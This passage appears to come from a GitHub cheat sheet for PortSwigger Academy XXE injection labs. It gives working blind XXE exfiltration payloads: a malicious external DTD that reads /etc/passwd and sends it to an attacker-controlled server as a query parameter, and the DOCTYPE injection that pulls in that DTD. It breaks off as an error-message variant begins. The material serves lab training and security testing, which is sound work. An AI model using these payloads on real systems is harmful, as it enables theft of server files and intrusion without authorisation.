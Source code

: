 * Check your server logs for any network traffic.


<br><br>

### Example:  XXE Injection Parameter Entities

![XXE Injection2](https://github.com/ChrisM-X/PortSwigger-Academy-CheatSheets/blob/master/XXE%20Injection/Images/XXE-2.png)


<br><br>

### Blind XXE to exfiltrate data – malicious external DTD

* Host the following code in a .dtd file on your server:  (Change the targeted file as needed.)

* This will cause the application to issue a request to the attacker's server, appending the contents of the /etc/passwd file as a query parameter.


```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://server-you-control.com/?x=%file;'>">
%eval;
%exfiltrate;
```

* Now inject the following payload in the body of the request on the target application:  (Note: The file on your server needs to be called "malicious.dtd")

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://server-you-control.com/malicious.dtd"> %xxe;]>
```


<br>

### Blind XXE to exfiltrate data – external DTD via error messages

* Host the following code in a .dtd file on your server, the “nonexistent” file will cause an error message, and the stack trace will include the contents of the /etc/passwd in the HTTP response of the target application:
